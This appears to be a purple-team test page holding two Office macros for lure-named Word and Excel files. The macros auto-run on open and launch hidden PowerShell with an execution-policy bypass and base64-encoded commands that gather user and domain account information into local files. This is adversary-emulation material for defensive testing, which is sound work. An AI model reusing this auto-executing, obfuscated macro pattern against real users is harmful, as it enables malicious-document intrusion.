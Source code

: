 # Office Macro enabled coudments

## performance_eval_2025.doc

The following macro will execute on document open:
```VBA
Private Sub format_document()
MsgBox "Purple Team Test - check 'C:\temp\word_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AHcAaABvAGEAbQBpACAALwBhAGwAbAAgAD4AIABDADoAXAB0AGUAbQBwAFwAdwBvAHIAZABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQA", vbHide)

End Sub
Sub Document_Open()
    format_document
End Sub
Sub AutoOpen()
    format_document
End Sub

```

## budget_surplus_fy25.xls

The following macro will execute on workbook open:
```VBA
Sub format_workbook()
MsgBox "Purple Team Test - check: 'C:\temp\excel_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiAG4AZQB0ACAAdQBzAGUAcgAgAC8AZABvAG0AYQBpAG4AIAA+ACAAQwA6AFwAdABlAG0AcABcAGUAeABjAGUAbABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQAIgA=", vbHide)

End Sub
Private Sub Workbook_Open()
    format_workbook
End Sub
Private Sub AutoOpen()
    format_workbook
End Sub
```

